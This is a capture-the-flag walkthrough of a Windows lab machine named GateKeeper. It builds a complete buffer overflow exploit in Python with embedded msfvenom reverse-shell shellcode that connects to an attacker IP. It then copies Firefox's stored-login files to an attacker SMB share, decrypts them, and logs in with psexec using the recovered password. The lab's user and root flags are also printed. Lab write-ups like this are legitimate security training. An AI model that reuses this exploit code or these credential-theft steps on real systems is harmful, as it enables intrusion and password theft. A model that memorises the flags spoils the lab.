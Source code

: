 # GateKeeper

- MachineIP: `10.10.128.185`
- OS	   : `Windows`
- Exploits : `Buffer Overflow, Stroed Creds`

---

- Nmap recon, port 135`(msrpc)`, 139`(netbios)`, 445`(samba)` ,3389`(ms-wbt-server)` ,31337`(Elite)`
- User share from SMB is accessable

```bash
➜  gatekeeper git:(main) ✗ crackmapexec smb 10.10.128.185 -u 'anonymous' -p 'a' --shares
```

- Accessing the share and downloading its contents

```bash
➜  gatekeeper git:(main) ✗ smbclient -U 'anonymous' //10.10.128.185/Users                                                                        
Enter WORKGROUP\anonymous's password:                                                                                                            
Try "help" to get a list of possible commands.                                                                                                   
smb: \> ls                                                                                                                                       
  .                                  DR        0  Fri May 15 07:27:08 2020                                                                       
  ..                                 DR        0  Fri May 15 07:27:08 2020                                                                       
  Default                           DHR        0  Tue Jul 14 12:37:31 2009                                                                       
  desktop.ini                       AHS      174  Tue Jul 14 10:24:24 2009                                                                       
  Share                               D        0  Fri May 15 07:28:07 2020                                                                       
cd                                                                                                                                               
                7863807 blocks of size 4096. 3865187 blocks available
smb: \> cd Share
smb: \Share\> ls
  .                                   D        0  Fri May 15 07:28:07 2020
  ..                                  D        0  Fri May 15 07:28:07 2020
  gatekeeper.exe                      A    13312  Mon Apr 20 10:57:17 2020

                7863807 blocks of size 4096. 3865187 blocks available
smb: \Share\> get gatekeeper.exe
```

- Now load the appliaction in immunity debugger, crash the applicaiton with bunch of charaters

```python
import socket, sys

host = "127.0.0.1"
port = 31337
payload = "a"*100
timeout = 2

while True:
	try:
		with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
			s.settimeout(timeout)
			s.connect((host, port))
			print(f"Sending {len(payload)} bytes to the application....")
			s.send(bytes(payload + "\r\n", 'latin-1'))
			s.recv(1024)
	except:
		print(f"Application crashed at {len(payload)} bytes.")
		sys.exit(0)
	payload += "a"*100
```

- Now running the application crashes the appliacition in 200 bytes
- Lets generate a cyclic pattern to find the offset of the applicaition

```bash
# generating cyclic pattern
➜  gatekeeper git:(main) ✗ pwn cyclic 400
```

- Now update the script and run the script

```python
#!/usr/bin/env python

host = "127.0.0.1"
port = 31337

offset = 0
overflow = "a"*offset
retn = ""
padding = ""
payload = "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaad"

s_buff = overflow + retn + padding + payload

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))
s.send(bytes(s_buff + "\r\n", 'latin-1'))
s.recv(1024)
print("Application crashed :)")
```

- Now take the value of the `EIP` shown in the Immunity debugger and find the offset of the application

```bash
➜  gatekeeper git:(main) ✗ pwn cyclic -l 0x616D6261
146
```

- Now upadate the offset value in the script and clear the payload value, set the retn value to `bbbb`
- Now on running the script, the application will crash and the EIP will be overwritten with `62626262`
- Now generate hexadecimal charters from `\x00` to `\xff` and update the contents in the payload field
- Now run the script and crash the application (again), now find the bad characters with mona
- The badcharacters in this application are `\x00\x0a`, now generate a shell code with msfconsole without these two specified characters and update the payload value

```bash
➜  gatekeeper git:(main) ✗ msfvenom -p windows/shell_reverse_tcp LHOST=10.14.10.221 LPORT=1337 -f py -v payload -b "\x00\x0a"
```
- Now find an instruction which says `JMP ESP` and upadate the retn value
- Run the script while listening on the port 13337

```bash
#!/usr/bin/env python3

import socket, sys

host = "10.10.128.185"
port = 31337

offset = 146
overflow = "a"*offset
retn = "\xc3\x14\x04\x08" # 080414C3   ? FFE4           JMP ESP
padding = "\x90"*16

# msfvenom -p windows/shell_reverse_tcp LHOST=10.14.10.227 LPORT=1337 EXITFUNC=thread -b "\x00\x0a" -v payload -f py
payload =  ""
payload += "\xbd\x05\x25\xb3\x71\xdb\xcd\xd9\x74\x24\xf4\x5b"                                                                                   
payload += "\x29\xc9\xb1\x52\x83\xc3\x04\x31\x6b\x0e\x03\x6e"                                                                                   
payload += "\x2b\x51\x84\x8c\xdb\x17\x67\x6c\x1c\x78\xe1\x89"                                                                                   
payload += "\x2d\xb8\x95\xda\x1e\x08\xdd\x8e\x92\xe3\xb3\x3a"
payload += "\x20\x81\x1b\x4d\x81\x2c\x7a\x60\x12\x1c\xbe\xe3"
payload += "\x90\x5f\x93\xc3\xa9\xaf\xe6\x02\xed\xd2\x0b\x56"
payload += "\xa6\x99\xbe\x46\xc3\xd4\x02\xed\x9f\xf9\x02\x12"
payload += "\x57\xfb\x23\x85\xe3\xa2\xe3\x24\x27\xdf\xad\x3e"
payload += "\x24\xda\x64\xb5\x9e\x90\x76\x1f\xef\x59\xd4\x5e"
payload += "\xdf\xab\x24\xa7\xd8\x53\x53\xd1\x1a\xe9\x64\x26"
payload += "\x60\x35\xe0\xbc\xc2\xbe\x52\x18\xf2\x13\x04\xeb"
payload += "\xf8\xd8\x42\xb3\x1c\xde\x87\xc8\x19\x6b\x26\x1e"
payload += "\xa8\x2f\x0d\xba\xf0\xf4\x2c\x9b\x5c\x5a\x50\xfb"
payload += "\x3e\x03\xf4\x70\xd2\x50\x85\xdb\xbb\x95\xa4\xe3"
payload += "\x3b\xb2\xbf\x90\x09\x1d\x14\x3e\x22\xd6\xb2\xb9"
payload += "\x45\xcd\x03\x55\xb8\xee\x73\x7c\x7f\xba\x23\x16"
payload += "\x56\xc3\xaf\xe6\x57\x16\x7f\xb6\xf7\xc9\xc0\x66"
payload += "\xb8\xb9\xa8\x6c\x37\xe5\xc9\x8f\x9d\x8e\x60\x6a"
payload += "\x76\xbb\x7a\x7e\x65\xd3\x80\x7e\x6c\x1d\x0c\x98"
payload += "\x04\x4d\x58\x33\xb1\xf4\xc1\xcf\x20\xf8\xdf\xaa"
payload += "\x63\x72\xec\x4b\x2d\x73\x99\x5f\xda\x73\xd4\x3d"
payload += "\x4d\x8b\xc2\x29\x11\x1e\x89\xa9\x5c\x03\x06\xfe"
payload += "\x09\xf5\x5f\x6a\xa4\xac\xc9\x88\x35\x28\x31\x08"
payload += "\xe2\x89\xbc\x91\x67\xb5\x9a\x81\xb1\x36\xa7\xf5"
payload += "\x6d\x61\x71\xa3\xcb\xdb\x33\x1d\x82\xb0\x9d\xc9"
payload += "\x53\xfb\x1d\x8f\x5b\xd6\xeb\x6f\xed\x8f\xad\x90"
payload += "\xc2\x47\x3a\xe9\x3e\xf8\xc5\x20\xfb\x18\x24\xe0"
payload += "\xf6\xb0\xf1\x61\xbb\xdc\x01\x5c\xf8\xd8\x81\x54"
payload += "\x81\x1e\x99\x1d\x84\x5b\x1d\xce\xf4\xf4\xc8\xf0"
payload += "\xab\xf5\xd8"


# bad chars \x00\x0a

s_buffer = overflow + retn + padding + payload

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))
s.send(bytes(s_buffer + "\r\n", 'latin-1'))
s.recv(1024)
print("Crashed :)")
```

- Now the reverse shell will be obtained as `natbat` and the user.txt can be enumerated
- On the desktop we can see `Firefox.lnk` which is a shortcut for firefox application 
- Firefox is likely to be installed on the computer
- Roaming around we can obtain the version of firefox which is 75, has a memory leak vulnerablity which we can make use of to obtain password which are stored in the browser
- Following [this](https://github.com/lclevy/firepwd) exploit, we can obtain the stored password
- Requirements, `keys3/4.db` and `logins.json`
- We transfer both to the machine

```bash
# on the attacker machin
➜  gatekeeper git:(main) ✗ sudo smbserver.py share . -smb2support

# on the victim machine

# mounting the share
C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release>net use x: \\10.14.10.227\share
net use x: \\10.14.10.227\share
The command completed successfully.

# copying files 
C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release>copy logins.json x:
copy logins.json x:
        1 file(s) copied.

C:\Users\natbat\AppData\Roaming\Mozilla\Firefox\Profiles\ljfn812a.default-release>copy key4.db x:
copy key4.db x:
        1 file(s) copied.
```

- Now copy these files to the firepwd directory and run it

```bash
➜  firepwd git:(master) ✗ python3 firepwd.py
[..snip..]
decrypting login/password pairs
   https://creds.com:b'mayor',b'8CL7O1N78MdrCIsV'
```

- Now we got the password for the mayor lets login to the machine

```bash
➜  ~ psexec.py -target-ip 10.10.128.185 10.10.128.185/mayor:8CL7O1N78MdrCIsV@10.10.128.185 cmd
[..snip..]
C:\Users\mayor\Desktop>type root.txt.txt
{Th3_M4y0r_C0ngr4tul4t3s_U}
```

### Answers

#### Defeat the Gatekeeper and pass through the fire.

- Locate and find the User Flag.
`{H4lf_W4y_Th3r3}`

- Locate and find the Root Flag
`{Th3_M4y0r_C0ngr4tul4t3s_U}`
